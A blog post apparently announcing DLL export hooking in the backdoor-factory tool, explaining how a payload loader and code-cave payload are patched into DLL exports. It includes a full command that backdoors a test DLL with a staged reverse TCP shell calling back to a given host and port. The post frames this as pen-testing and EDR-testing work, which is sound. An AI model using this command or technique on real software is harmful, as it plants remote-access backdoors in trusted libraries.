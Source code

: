 # Patching DLLs with BDF

### TL;DR

BDF now hooks exports in x86_64 DLLs, providing a potent tool for your pen-testing arsenal. Exclusive updates and features are available for our sponsors. Get it [here](https://github.com/sponsors/secretsquirrel).


### Introduction
While the backdoor-factory (BDF) has been around since 2013, development stopped in 2017, started up again 2020 and has continued since - updates released to my github sponsors. I recently added DLL export hooking for x86_64 DLLs. Either way, I hope this functionality helps my sponsors on their future engagements, in training, or with testing their EDRs. In the past couple years, I added support for macOS arm64, Linux x64 DYN ELF binaries, and Windows x86_64 binaries with ControlFlowGuard hooking and text based payload loaders. 

For those that don't know, exports are functions that DLLs provide so that executable programs can import these functions versus reinventing them all the time. Examples of this are common windows APIs, like TCP socket functionality. DLLs provide portability and stability, allowing developers to keep the export APIs the same while changing the underlying functionality without breaking backwards compatibility (hopefully).

Infecting a DLL provides flexibility to attackers as your modified DLL could be used anywhere by any program if you choose wisely. 

### How's it work?
BDF allows you to hook DLL exports. This means that you can hook a DLL export and execute your own code. This is useful for a number of reasons, but the most common is to patch a DLL to do something it wasn't intended to do. Typically there is space before each export API to allow this.

BDF places a payload loader in the text section. The payload is placed in a code cave in another section. A flag is set before the payload to indicate that the payload has not been executed. When the payload is executed, the flag is set to indicate that the payload has been executed. This is useful to prevent execution of the payload more than once.

The loader will load the payload into memory. The payload with the recovery code will execute, returning execution to the original export API. 

Why not hook DLLMain or PE entry (because a DLL is a PE file)? Because you'll get double execution - once each on DLL load and DLL unload. 

### Toy Example
I created a simple DLL with two exports for messagebox popups. 

Here's BDF targeting both DLL exports.

```bash
./backdoor.py -f tests/hello-world.dll PATCH_METHOD=hook_dll_exports \ 
MODE=dll_loader_single_cave PAYLOAD=text_loader_dll_reverse_tcp_staged_threaded \
HOST=172.16.64.1 PORT=8080 \
EXPORTS=MessageBoxThread1,MessageBoxThread2, CHECKSUM=True \
ZERO_CERT=True
^(;,;)^ - oh hai
         Author:    Joshua Pitts
         Email:     the.midnite.runr[-at ]gmail<d o-t>com
         Twitter:   @ausernamedjosh
         
         Version:   5.0.0
         
2023-12-21 23:33:56,INFO,pe_parse.py,[*] Gathering file info
2023-12-21 23:33:56,INFO,hook_dll_exports.py,[*] Selected Payload: text_loader_dll_reverse_tcp_staged_threaded
2023-12-21 23:33:56,INFO,hook_dll_exports.py,[*] Selected Mode: dll_loader_single_cave
2023-12-21 23:33:56,INFO,core.py,[*] Checking for APIs
```